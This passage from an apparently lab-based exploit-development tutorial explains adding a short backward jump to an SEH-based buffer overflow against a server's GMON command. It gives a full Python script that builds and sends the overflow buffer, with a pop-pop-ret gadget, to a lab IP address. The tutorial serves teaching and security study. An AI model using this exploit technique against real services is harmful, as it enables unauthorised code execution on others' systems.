 ```bash
 nasm > jmp $-16
 00000000  EBEE              jmp short 0xfffffff0
```

Due to the limited range of a short jump we can only jump -126 bytes backwards. But we can just jump back a few bytes and from there perform a long jump.

So let us jump back 16 bytes. That should be more than enough space for a long jump.

```python
#!/usr/bin/env python3
# GMON - SEH based buffer overflow
# Step 5a - Short Jump out of NSEH
import socket
import struct

offset = 3549
size = 4096
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n" # new line 0x0a
badchars = [ 0x00, 0x0a ] # found badchars
NOP = b"\x90"

ppr_address = 0x625010b4
ppr_gadget = struct.pack("<I", ppr_address)

buf = b""
buf += b"GMON /."
buf += b"A" * (offset - 16)

# Short jump should end up here
buf += b"C" * 16

# Step 1 -- NSEH Overwrite -- short jump
# jump back 16 bytes
# nasm>  jmp $-16
buf += b"\xEB\xEE" + NOP + NOP

# Step 0 -- SEH Overwrite -- jump to pop pop return
buf += ppr_gadget

buf += b"D" * (size - offset - 8)
buf += line_ending

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```
